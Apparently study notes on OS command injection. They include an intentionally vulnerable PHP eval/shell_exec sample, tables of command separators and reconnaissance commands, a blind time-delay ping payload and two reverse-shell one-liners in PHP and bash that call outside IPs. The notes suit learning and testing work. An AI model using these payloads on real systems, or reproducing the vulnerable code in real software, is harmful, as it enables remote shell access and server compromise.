

1

# Overview
## Theory

### 1. Definition
OS Command Injection a.k.a **shell injection**. It allows an attacker to **execute OS commands** on the **server** that running an application. It's occurs when user input is **not properly validated** before **being integrated** into functions that **execute system command**.

In simple term, if an application **accepts data from users without filtering it**, an attacker can hijack the initial command and **execute arbitrary command**.
### 2. Risk
Typically fully compromise the **application** and its **data**.
Attack can leverage an this vulnerability to compromise other parts of the **hosting infrastructure**, **exploit trust relationship** to pivot the attack to other systems within the organization.
### 3. Vulnerability
```
<?php
if ($_SERVER["REQUEST_METHOD"] === "POST") {
    $ip = $_POST["ip"];

    eval('$output = shell_exec("ping -c 4 " . "' . $ip . '");');

    echo "<pre>$output</pre>";
}?>
```

This sample shows **ip** parameter taken from POST request, include the value inside dangerous **functions** "**eval()**" that directly execute user input as a part of the code and print output as in string. This sample highlights lack of **input sanitation** and **validation**.

### 4. Exploitation
Bypassing the intended command is possible using a special character that act as command separators, allowing the original context to be removed and other commands to be executed.
The main command separators on Windows and Unix systems including: **<font color="#c00000">&</font>**, **<font color="#c00000">&&</font>**, **<font color="#c00000">|</font>** or **<font color="#c00000">| |</font>**
# Practical
## <font color="#00b0f0">Injecting OS Commands</font>
### <font color="#0070c0">Finding Injection Point</font>
```
https://insecure-website.com/stockStatus?productID=<injection-point>&storeID=29
```
or 
```
https://insecure-website.com/stockStatus?productID=41&storeID=<injection-point>
```
#### Reason
It's because the *<font color="#00b050">productID</font>* & <font color="#00b050">storeID</font> that being insert in the command or query in the server.
#### BurpSuite

We also can exploit shell injection using burpsuite. 
##### Explanation
I found multiple features that takes input from user and integrate inside a code. I inspected 2 php file which is product.php and and stock.php. product.php required on productId to query and display information about related product. I tested shell injection on parameter productId but it doesn't appear to be vulnerable. So I'll do the same for stock.php, stock.php required 2 parameter which is productId and storeId. I tried on both parameter and it's appear to be vulnerable, and we get information of current user.
### <font color="#00b0f0">Testing For Vulnerability</font>

| <center>Payload Purpose</center> | <center> Linux</center> | <center>Windows</center> |
| -------------------------------- | ----------------------- | ------------------------ |
| **Print supplied string**        | & echo testing &        | & echo testing &         |
| **Listing Files**                | <center>ls</center>     | <center>dir</center>     |

### <font color="#00b0f0">Configuring Payload</font>
```
|| ls -l
```
**List file in current working directory with detailed information**

### <font color="#00b0f0">Payload Engineering</font>
#### 1. Special Escape Character

| Special Character                       | Platform  |
| --------------------------------------- | --------- |
| <center>#</center>`Comment out strings` | Both      |
| <center>&</center>                      | Both      |
| <center>&&</center>                     | Both      |
| <center>\|</center>                     | Both      |
| <center>\|\|</center>                   | Both      |
| <center>;</center>                      | Unix only |
| Newline (**0x0a** or **\n**)            | Unix only |
| \` injection command \`                 | Unix only |
| $(injection command)                    | Unix only |
#### 2. Information-Extraction Command

| **Purpose of command**   | **Linux**   | **Windows**   |
| ------------------------ | ----------- | ------------- |
| **Name of current user** | whoami      | whoami        |
| **Operating system**     | uname -a    | ver           |
| **Network config**       | ifconfig    | ipconfig /all |
| **Network connection**   | netstat -an | netstat -an   |
| **Running processes**    | ps -ef      | tasklist      |
| **File Listing**         | ls          | dir           |
#### 3. Backdoor Installation Payload
##### Reverse Shell Payload
PHP
```
; /usr/local/bin/php -r '$sock=fsockopen("192.168.20.130",4444);shell_exec("/bin/sh -i <&3 >&3 2>&3");' #
```
BASH
```
/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```

## <font color="#00b0f0">Blind Command Injection</font>
### Theory
Many instances of OS command injection are **blind vulnerabilities**. Meaning that the application **does not return the output** from the command its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required.

### Detection Technique
**echo** command is useless in term of attack against blind vulnerabilities. We could take another way around by using **time delay method** to detect shell injection vulnerability.

We can utilize this payload to test shell injection vulnerability
```
||ping -c 10 127.0.0.1||
```
This payload utilize ping features with **-c** args. **-c** args used to ping given ip for certain period of time that we given. It will delay the HTTPS response with the **-c** time frame.

**Example**


 